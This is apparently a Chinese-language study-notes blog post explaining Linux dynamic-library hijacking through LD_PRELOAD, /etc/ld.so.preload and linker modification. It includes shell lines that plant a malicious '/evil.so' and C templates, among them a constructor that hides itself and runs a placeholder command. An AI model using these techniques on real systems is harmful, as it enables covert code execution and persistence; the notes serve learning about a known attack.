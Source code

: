 ```yaml
---
layout: post
title: 动态链接库劫持
date: 2022-9-22
categories: blog
tags: [笔记,拓展知识]
description: 动态链接库

---
```


### 动态链接库劫持

***

#### 程序链接方式

静态链接：程序运行前将各个目标模块以及库函数链接
装入链接：在程序编译装入内存时，一边编译，一边链接
运行链接：在程序执行时，需要时才进行链接

#### 动态链接库劫持

LD_PRELOAD环境变量和/etc/ld.so.preload配置文件中指定的动态链接库比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，即使用户不使用，仍会加载。  

#### 利用方式  

1.`通过LD_PRELOAD环境变量加载`  
2.`通过/etc/ld.so.preload配置文件加载`  
3.`通过修改动态链接器实现恶意代码`

##### 通过LD_PRELOAD环境变量加载

```shell
LD_PRELOAD = /evil.so #设置恶意动态链接库
export  LD_PRELOAD  #导出生效
```

##### 通过/etc/ld.so.preload配置文件加载

```shell
echo "/evil.so" > /etc/ld.so.preload
```

##### 通过修改动态链接器实现

```shell
#1.修改动态链接器中配置文件路径/etc/ld.so.preload为自定义的路径
#2.在该路径中写入要预加载的恶意动态链接库的绝对路径
```

#### 利用

##### 查看库函数 

```shell
readelf -Ws /usr/bin/ls
```

##### 选择函数重写

```c
//劫持某一函数
#include<stdlib.h> 
#include<stdio.h>  
#include<string.h>

void payload(){
     //exp;
}
int xxx(){
	if(getenv("LD_PRELOAD") == NULL){
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}

//所有命令全量劫持
#include<stdlib.h>
#include<stdio.h>
#include<string.h>


__attribute__((__constructor__)) void preload (){
    unsetenv("LD_PRELOAD");
    system("id");//exp
}
```

##### 编译加载

```shell
gcc -shared -fPIC test.c -o test.so
export LD_PRELOAD=$PWD/test.so
```

